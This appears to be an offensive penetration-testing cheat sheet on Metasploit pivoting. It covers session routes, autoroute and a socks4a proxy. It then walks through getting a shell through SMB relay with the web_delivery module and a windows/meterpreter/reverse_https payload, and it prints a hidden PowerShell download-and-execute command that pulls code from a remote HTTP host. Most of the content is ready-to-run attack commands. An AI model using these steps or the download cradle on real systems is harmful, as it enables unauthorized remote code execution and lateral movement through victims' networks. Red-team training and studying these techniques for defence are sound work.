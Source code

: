 Once the session is established, access it using 
 sessions -i <session number>
, noting the session number for later

 route add <remote subnet> <its subnet mask> <session number>

You can use this module instead:

      post/multi/manage/autoroute

You must add a route for EACH DESTINATION NETWORK that you may want to make a remote connection to.

 route print 
(to verify)

FOR SOCKS:
 msf> use auxiliary/server/socks4a
 socks4a> set SRVHOST 127.0.0.1                                      
 socks4a> set SRVPORT 55555 
(this should be the same port you mapped to with putty / ssh)
 socks4a> run   

FOR Port Forwarding:



Simply point your application at the port you opened locally. For web pivoting, set your browser to use the local port as a socks proxy.
For RDP or similar applications, simply attempt to connect directly to your local port.


1. Retrieve shell from SMBRelay

      ```
      metasploit setup
      use exploit/multi/script/web_delivery # Tells msfconsole to delivery the attack over a web delivery
      set TARGET 2 # Sets the target to use powershell for the attack payload
      set URIPATH / # Sets the download path to the root
      set payload windows/meterpreter/reverse_https # Sets the paylaod to be launched
      set LHOST 0.0.0.0 # Set the local listening IP
      set LPORT 443 # Set the local listening Port
      set exitonsession false # Keep the job running even if you get a call back
      exploit -j -z # Star the exploit and run it as a job in the background
      ```
1. Metasploit will print out a command that you will need to assign to the impacket setup we will see in a moment.
      * Example:
            * ```
            powershell.exe -nop -w hidden -c IEX ((New-Object net.webclient).downloadstring('http://192.168.1.5:8080/'))
            ```
      * Currently Metasploit will give you the following command instead of the one above. This one has proven to not work 100%. Use at your own risk.
            * ```
            powershell.exe -nop -w hidden -c $x
            ```